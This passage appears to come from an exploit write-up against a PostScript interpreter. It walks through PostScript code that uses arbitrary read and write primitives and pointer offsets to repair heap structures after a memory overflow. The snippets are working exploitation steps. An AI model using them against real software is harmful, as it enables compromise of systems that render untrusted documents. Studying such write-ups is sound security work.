 The first thing I did was get the reappeared pointer at `0x7ffff3688018` and subtract `0xD50` from it to get the pointer at `0x7ffff3688010`.

```postscript
/ptr4 ptr3 8 ptradd def

/buf3 8 string def
ptr4 buf3 arbrd

/buf4 buf3 3408 ptradd def

ptr3 buf4 arbwr
```

First, `ptr3` holds the value of the address `0x7ffff3688010` or the first pointer in the hexdump after the overflow. Then I set `ptr4` to `ptr3 + 8` which is `0x7ffff3688018`. A new variable `buf3` is created and hold the pointer at `ptr4` using `arbrd`. Now that `buf3` holds the pointer at `0x7ffff3688018`, I can use `ptradd` to add `0xD50` to `buf3` to get the pointer at `0x7ffff3688010` and store it in `buf4`. Finally, I write the value of `buf4` to `ptr3` which is the first pointer in the hexdump after the overflow.

The next step is to fix the two memory clumps before and after those two pointers which is straightforward:

```postscript
/ptr5 ptr3 -8 ptradd def
ptr5 <02504c0000000000> arbwr

/ptr6 ptr3 16 ptradd def
ptr6 <784b4c0000000000> arbwr
```

This just subtracts 8 and adds 16 to `ptr3` to get the addresses of the two clumps of bytes and writes the values to them since they are always the same. 

The next step is to set `(st_bytes)` and `('large object clump')` to the correct values. Both follow the same pattern:

```postscript
/ptr7 ptr3 24 ptradd def
/buf5 8 string def
ptr3 749546 ptradd buf5 arbrd
ptr7 buf5 arbwr

/ptr8 ptr3 32 ptradd def
/buf6 8 string def
ptr3 749554 ptradd buf6 arbrd
ptr8 buf6 19 ptradd arbwr
```

Again I add from `ptr3` to get the addresses of the two pointers to write to. Then I read the value at `ptr3 + 749546` which is the address of `(st_bytes)` at `0x7ffff373effa`, store it in `buf5`, and write it to `ptr7`. The same thing is done for but this time it gets the address of `'large string clump'` at `0x7ffff373f002` and stores it in `buf6`. After that I add `0x13` to `buf6` to get the address of `'large object clump'` and then write it to `ptr8`.
